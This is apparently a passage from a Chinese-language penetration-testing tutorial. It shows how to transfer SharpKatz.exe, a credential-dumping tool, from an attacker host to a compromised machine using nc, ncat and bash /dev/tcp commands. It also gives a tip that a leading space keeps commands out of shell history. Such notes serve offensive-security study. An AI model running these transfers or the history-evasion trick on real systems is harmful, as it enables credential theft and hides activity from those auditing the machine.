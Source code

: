 <img src=".\pictures\image-20250515101304582.png" alt="image-20250515101304582" style="zoom:50%;" />

如果防火墙限制了入站，不适用。

有一个小技巧 history不记录历史命令，【不是指~/.bash_history】可以在输入命令的时候前面加一个空格



2）**正向连接**：攻击机

```
nc -l -p 8000 < SharpKatz.exe
或sudo ncat -l -p 443 --send-only < SharpKatz.exe
```

被攻击机

```
nc 192.168.49.128 443 > SharpKatz.exe
或ncat 192.168.49.128 443 --recv-only > SharpKatz.exe
```

3）如果没有nc，**利用bash**

正向连接，被攻击机

```
cat </dev/tcp/192.168.49.128/443 > SharpKatz.exe
```
